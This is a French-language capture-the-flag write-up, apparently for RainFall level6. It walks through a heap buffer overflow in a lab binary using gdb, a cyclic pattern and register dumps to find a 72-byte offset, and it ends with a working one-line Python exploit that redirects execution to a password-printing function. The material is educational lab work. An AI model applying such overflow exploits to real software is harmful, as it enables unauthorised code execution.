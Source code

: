 # Solution

```
./level6 "$(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')"
```

# Explication du level

Dans ce niveau il y a plusieur point que l'on peut remarquer

- la fonction n affiche le mot de passe mais n'est jamais apeler
- dst est malloc avec 0x40 ce qui correspond a 64 en decimal 
- strcpy est appeler avec dst pour copier la premiere str envoyer en argument 


On peu en deduire que si l'on met une chaine de plus de 64 caractere cela va depasser la memoire et ecrasé les element de la stack adjacent.
Il suffit donc de faire comme pour le level2 un overflow exploit

--------------------------------------
Adresse de n :
```
level6@RainFall:~$ gdb ./level6 
(gdb) p &n
$1 = (<text variable, no debug info> *) 0x8048454 <n>
```
---------------------------------------

Offset de l'adresse de retour :

D'abord generons une string qui ne se repete pas sur https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html

str : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Ensuite on peu sois utiliser peda sois passer par gdb comme nous avons deja utiliser peda, nious allons faire avec gdb cette fois ci :

```
level6@RainFall:~$ gdb ./level6
(gdb) b main
Breakpoint 1 at 0x804847f
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 str : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804847f in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()

##Apres l'overflow :
(gdb) info register
eax            0x41346341	1093952321
ecx            0xbffff900	-1073743616
edx            0x804a060	134520928
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0x41346341	0x41346341
eflags         0x210202	[ IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

Comme $eip est = 41346341 si on converti cela en caractere lisible cela donne A4cA on inverse et cela donne Ac4A qui apparait au 72 char de notre str

--------------------------------------------

Creation de l'exploit :

offset : 72
adresse de n : 0x8048454
```
./level6 "$(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')"
```
